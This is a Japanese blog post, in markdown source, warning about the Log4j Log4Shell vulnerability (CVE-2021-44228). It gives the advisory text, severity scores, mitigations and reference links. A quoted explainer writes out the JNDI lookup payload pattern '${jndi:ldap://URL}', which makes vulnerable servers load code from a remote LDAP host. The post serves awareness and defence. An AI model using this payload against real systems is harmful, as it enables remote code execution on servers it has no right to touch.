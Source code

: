 +++
title = "Java 製 Logger “Log4j” の脆弱性について"
date =  "2021-12-11T15:22:43+09:00"
description = "2.15.0 以降にアップデートするか何らかの緩和措置を行うこと。"
image = "/images/attention/kitten.jpg"
tags  = [ "java", "security", "vulnerability", "logger" ]
pageType = "text"

[scripts]
  mathjax = false
  mermaidjs = false
+++

私の Twitter TL では昨日あたりからちらほら見かけるようになったが Java 製の事実上の標準 logger である Apache Log4j パッケージに脆弱性があったそうで，最新版 [2.15.0](https://github.com/apache/logging-log4j2/releases/tag/rel%2F2.15.0) のアナウンスが出ている。
ちょっと大事になりそうな気がするので，この記事で覚え書きとして残しておく。

## [CVE-2021-44228]

{{< fig-quote type="markdown" title="Log4j – Apache Log4j Security Vulnerabilities" link="https://logging.apache.org/log4j/2.x/security.html" lang="en" >}}
{{% quote %}}Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default{{% /quote %}}.
{{< /fig-quote >}}

ちょっと分かりにくいかもしれないので，以下の解説記事も参考にどうぞ。

{{< fig-quote type="markdown" title="log4jの脆弱性について" link="https://ezoeryou.github.io/blog/article/2021-12-10-log4j.html" >}}
今回問題となっているのはJndi Lookupだ。これはJavaのJava Naming and Directory Interfaceによる変数名の置換で、ネットワーク越しに変数に相当する値を検索することができる。その中にLDAPも含まれる。例えば`"${jndi:ldap://someremoteclass}"`のようになる。

問題は、このURLに.を含めることにより、lg4jは任意のリモートのLDAPサーバーからjava classファイルをダウンロードして読み込んでしまうのだ。

なので悪意あるjava classファイルとそれをホストするLDAPサーバーを用意して、ターゲットとなるJavaで動きlog4jを使っているプログラムに`"${jndi:ldap://URL}"`の形でログ出力されるようにすれば、任意のコード実行が可能になる。
{{< /fig-quote >}}

ここまで言及されれば今回の脆弱性のヤバさが分かるだろう。
サービス側にログが吐かれるだけでこの脆弱性が発火する可能性があるのだ。
これは私達が目にしている各種サービスだけではなく，たとえばバックエンドで外部の Web API サービスを利用しているのならそちらも考慮する必要がある。
あるいは，もしかしたら組込み製品でアプリケーションを Java で組んでいるかもしれない。

Apache Log4j はこの脆弱性の CVSS 評価値を

- `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`
- 深刻度: 緊急 (Score: 10)

| 基本評価基準 | 評価値 |
|--------|-------|
| 攻撃元区分 | ネットワーク |
| 攻撃条件の複雑さ | 低 |
| 必要な特権レベル | 不要 |
| ユーザ関与レベル | 不要 |
| スコープ | 変更あり |
| 機密性への影響 | 高 |
| 完全性への影響 | 高 |
| 可用性への影響 | 高 |

と見積もっている。

一応，サービス側の緩和措置も示されているので「すぐに対応できないよー」という場合は参考にするといいだろう。

{{< fig-quote type="markdown" title="Log4j – Apache Log4j Security Vulnerabilities" link="https://logging.apache.org/log4j/2.x/security.html" lang="en" >}}
{{% quote %}}In releases >=2.10, this behavior can be mitigated by setting either the system property `log4j2.formatMsgNoLookups` or the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS` to `true`. For releases from 2.0-beta9 to 2.10.0, the mitigation is to remove the `JndiLookup` class from the classpath: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`{{% /quote %}}.
{{< /fig-quote >}}

とりあえずシステム・プロパティまたは環境変数で対応って感じかねぇ。

アップデートは計画的に。

## ブックマーク

- [GitHub - apache/logging-log4j2: Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.](https://github.com/apache/logging-log4j2)
- [Remote code injection in Log4j · CVE-2021-44228 · GitHub Advisory Database · GitHub](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q)
- [Oracle Security Alert Advisory - CVE-2021-44228](https://www.oracle.com/security-alerts/alert-cve-2021-44228.html)
- [“Log4Shell” Java vulnerability – how to safeguard your servers – Naked Security](https://nakedsecurity.sophos.com/2021/12/10/log4shell-java-vulnerability-how-to-safeguard-your-servers/)
- [Log4shell software flaw threatens millions of servers as hackers scramble to exploit it - ABC News](https://www.abc.net.au/news/2021-12-11/log4shell-techs-race-to-fix-software-flaw/100692876)
- [Apache Log4j2 Security Bulletin (CVE-2021-44228)](https://aws.amazon.com/security/security-bulletins/AWS-2021-005/)
- [Cybereason/Logout4Shell: Use Log4Shell vulnerability to vaccinate a victim server against Log4Shell](https://github.com/Cybereason/Logout4Shell)
- [RCE in log4j, Log4Shell, or how things can get bad quickly](https://isc.sans.edu/forums/diary/28120/)
- [Apache Log4j の脆弱性対策について(CVE-2021-44228)：IPA 独立行政法人 情報処理推進機構](https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html)
  - [Apache Log4jの任意のコード実行の脆弱性（CVE-2021-44228）に関する注意喚起](https://www.jpcert.or.jp/at/2021/at210050.html)
- [マイクラもハッキング ～「Apache Log4j」ライブラリに致命的なリモートコード実行のゼロデイ脆弱性【12月10日18:45追記】 - やじうまの杜 - 窓の杜](https://forest.watch.impress.co.jp/docs/serial/yajiuma/1373242.html)

Minecraft では既に影響が出ている模様：

{{< fig-gen >}}
<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Critical RCE exploit discovered on all Minecraft <br> Java versions from 1.7 to 1.18, clients and servers. (Log4j2 2.0.0 - 2.14.1 vuln)<br>Fix it w:<br>- Use -Dlog4j2.formatMsgNoLookups=true<br>- Update Fabric Loader to 0.12.9<br>- Upgrade Paper server to latest 1.18 <br>- Wait for mojang patches</p>&mdash; Minecraft@Home (@minecraftathome) <a href="https://twitter.com/minecraftathome/status/1469110749431803904?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote>
{{< /fig-gen >}}

- [Worst Apache Log4j RCE Zero day Dropped on Internet - Cyber Kendra](https://www.cyberkendra.com/2021/12/worst-log4j-rce-zeroday-dropped-on.html)
- [Log4Shell: RCE 0-day exploit found in log4j2, a popular Java logging package | LunaSec](https://www.lunasec.io/docs/blog/log4j-zero-day/) : Steam や iCloud も対象なのか
- [Apache Log4j 2 CVE-2021-44228 - Docker Blog](https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/) : “Docker Official Images” で今回の脆弱性の影響を受けるものがリストアップされている
- [Inside the Log4j2 vulnerability (CVE-2021-44228)](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/)
- [What you need to know about the Log4J vulnerability rocking the internet - F-Secure Blog](https://blog.f-secure.com/what-you-need-to-know-about-the-log4j-vulnerability-rocking-the-internet/)
- [Microsoft’s Response to CVE-2021-44228 Apache Log4j 2 – Microsoft Security Response Center](https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/)
- [Statement from CISA Director Easterly on “Log4j” Vulnerability | CISA](https://www.cisa.gov/news/2021/12/11/statement-cisa-director-easterly-log4j-vulnerability)
- [Log4jの深刻な脆弱性CVE-2021-44228についてまとめてみた - piyolog](https://piyolog.hatenadiary.jp/entry/2021/12/13/045541)
- [「Docker Desktop」が「Log4j」問題に対応 ～脆弱性スキャンツールを更新 - 窓の杜](https://forest.watch.impress.co.jp/docs/news/1373550.html)
- [iCloud、ツイッター、マインクラフトなどに使われているオープンソースのログユーティリティにゼロデイ脆弱性が見つかる  |  TechCrunch Japan](https://jp.techcrunch.com/2021/12/13/2021-12-10-apple-icloud-twitter-and-minecraft-vulnerable-to-ubiquitous-zero-day-exploit/)
- [広く使われているJavaライブラリ「Log4j」に深刻な脆弱性。速やかに確認と対策を － Publickey](https://www.publickey1.jp/blog/21/javalog4j.html)
- [【注意喚起】Log4jの脆弱性を狙う攻撃を多数検知、至急対策を！ | セキュリティ対策のラック](https://www.lac.co.jp/lacwatch/alert/20211213_002820.html)

[CVE-2021-44228]: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## 参考図書

{{% review-paapi "B07CKHR8C1" %}} <!-- Spring Data JPAプログラミング入門 -->
{{% review-paapi "4621303252" %}} <!-- Effective Java 第3版 -->
{{% review-paapi "B0893LQ5KY" %}} <!-- Spring Boot 2 入門 -->
{{% review-paapi "B09HK66P5X" %}} <!-- Java言語で学ぶデザインパターン入門第3版 -->
